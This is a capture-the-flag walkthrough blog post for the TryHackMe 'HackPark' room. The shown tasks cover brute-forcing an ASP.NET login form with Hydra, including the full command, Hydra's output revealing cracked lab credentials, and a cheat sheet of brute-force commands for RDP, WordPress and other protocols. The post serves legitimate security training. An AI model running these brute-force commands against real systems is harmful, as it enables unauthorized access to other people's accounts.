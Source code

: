 ```yaml
---
layout: post
title: HackPark
categories: [CyberSecurity, CTF]
tags: [thm, easy, nmap]
---
```


![HackPark](/assets/hackpark.png){: .right }{: w="200" h="200" }

## Walkthrough
[https://tryhackme.com/room/hackpark](https://tryhackme.com/room/hackpark)

**Difficulty level:** Easy

## Task 1: Deploy the vulnerable Windows machine 

Connect to our network and deploy this machine. Please be patient as this machine can take up to 5 minutes to boot! You can test if you are connected to our network, by going to our access page. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

This room will cover brute-forcing an accounts credentials, handling public exploits, using the Metasploit framework and privilege escalation on Windows.

### Questions

Q1.Deploy the machine and access its web server.

> "No answer needed"

Q2.Whats the name of the clown displayed on the homepage?

> "Pennywise"

### MyWalk

Just using reverse image on google if you don't recognize the famous clown immediately

## Task 2: Using Hydra to brute-force a login

Hydra is a parallelized, fast and flexible login cracker. If you don't have Hydra installed or need a Linux machine to use it, you can deploy a powerful Kali Linux machine and control it in your browser!

Brute-forcing can be trying every combination of a password. Dictionary-attack's are also a type of brute-forcing, where we iterating through a wordlist to obtain the password.

### Questions

Q1. We need to find a login page to attack and identify what type of request the form is making to the webserver. Typically, web servers make two types of requests, a GET request which is used to request data from a webserver and a POST request which is used to send data to a server.

You can check what request a form is making by right clicking on the login form, inspecting the element and then reading the value in the method field. You can also identify this if you are intercepting the traffic through BurpSuite (other HTTP methods can be found here).

What request type is the Windows website login form using?

> "post"

Q2. Now we know the request type and have a URL for the login form, we can get started brute-forcing an account.

Run the following command but fill in the blanks:

```bash
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
```
{: .nolineno }

Guess a username, choose a password wordlist and gain credentials to a user account!

> "1qaz2wsx"

### MyWalk

The format is this:  
hydra -l <username> -P <wordlist> <targetIP> http-post-form <login request pattern>

We'll try "admin" as user  
Wordlist will be "/usr/share/wordlists/rockyou.txt"  
The login request pattern parameter its the most difficult part.  
The format parameter is:  
"<path to login form>:<body, with magic strings ^USER^ and ^PASS^>:<pattern that appears in an invalid login>"  
The path to the login form is: "/Account/login.aspx"  
The pattern that appears in case of invalid login is the text that appears when a login fails. Texting a random login it shows "Login failed" on the page.  
For the body, we’ll need to go back to Inspect Element and grab the request payload, or use **burpsuite** and catch the payload when trying some random user:pass

Here is our hydra command:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.148.20 http-post-form "/Account/login.aspx:__VIEWSTATE=0PmFPbjr6L0ykVNVkOxFjCTUBuJwS0RkLnJpLBxGcxaPxYXEtGkcIwrCYoLqaMI8AROYvejb0%2F1iu2b6Zp%2FsiuegsUBVgt4Z%2FC8KQMBwW8fQRLObTDBwY%2F0qxd3z8QPZ%2Ff7EFYBi7iWr9N%2Fgdj7oN5W9AW9dMG39xY%2BokbKnDL87oOKl%2Fok5jk2Hi%2BHOIrL3cRx20gPhijGqneg%2FIamc7eCAqDlFqbmhUJsJ96TV9u7BB34TkuweWvcZDSMUNtzW0ONZWCH0mkQZ2VqQXGoNZEogUADQGoqy72wAokMNLJdQpFjWYkUlWQhJkED7FRJ7KAJCuSHNx7nzQj3Tu18zrJ5nTMxbJPQk%2Fpf9CHiq1ro42yQt&__EVENTVALIDATION=kSawRteG%2BddgXQlXhXu9hPgtdSXb%2FJugk%2FOmNlPkOAFmSJLSTyqgh1RHT82QvprzeuLSrjIC2zeJaUmRE5StSck0hFX4dUyrctJXnXSeh%2BLrru6Jn4YfqahgAruVPvxuH%2BtYEPx5bUHiWMd%2Btf%2Fy7Ux7CmhqmUo%2BAG%2BJ3t0TtqxiV9kD&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-24 11:40:11
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.148.20:80/Account/login.aspx:__VIEWSTATE=0PmFPbjr6L0ykVNVkOxFjCTUBuJwS0RkLnJpLBxGcxaPxYXEtGkcIwrCYoLqaMI8AROYvejb0%2F1iu2b6Zp%2FsiuegsUBVgt4Z%2FC8KQMBwW8fQRLObTDBwY%2F0qxd3z8QPZ%2Ff7EFYBi7iWr9N%2Fgdj7oN5W9AW9dMG39xY%2BokbKnDL87oOKl%2Fok5jk2Hi%2BHOIrL3cRx20gPhijGqneg%2FIamc7eCAqDlFqbmhUJsJ96TV9u7BB34TkuweWvcZDSMUNtzW0ONZWCH0mkQZ2VqQXGoNZEogUADQGoqy72wAokMNLJdQpFjWYkUlWQhJkED7FRJ7KAJCuSHNx7nzQj3Tu18zrJ5nTMxbJPQk%2Fpf9CHiq1ro42yQt&__EVENTVALIDATION=kSawRteG%2BddgXQlXhXu9hPgtdSXb%2FJugk%2FOmNlPkOAFmSJLSTyqgh1RHT82QvprzeuLSrjIC2zeJaUmRE5StSck0hFX4dUyrctJXnXSeh%2BLrru6Jn4YfqahgAruVPvxuH%2BtYEPx5bUHiWMd%2Btf%2Fy7Ux7CmhqmUo%2BAG%2BJ3t0TtqxiV9kD&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[80][http-post-form] host: 10.10.148.20   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
```
{: .nolineno }


Hydra really does have lots of functionality, and there are many "modules" available (an example of a module would be the http-post-form that we used above).

However, this tool is not only good for brute-forcing HTTP forms, but other protocols such as FTP, SSH, SMTP, SMB and more. 

Below is a mini cheatsheet:

|  Command |Description|
|---|---|
|  hydra -P <wordlist> -v <ip> <protocol> | Brute force against a protocol of your choice  |
|  hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol> |  You can use Hydra to bruteforce usernames as well as passwords. It will loop through every combination in your lists. (-vV = verbose mode, showing login attempts) |
| hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>  | Attack a Windows Remote Desktop with a password list.  |
|  hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Craft a more specific request for Hydra to brute force.  |
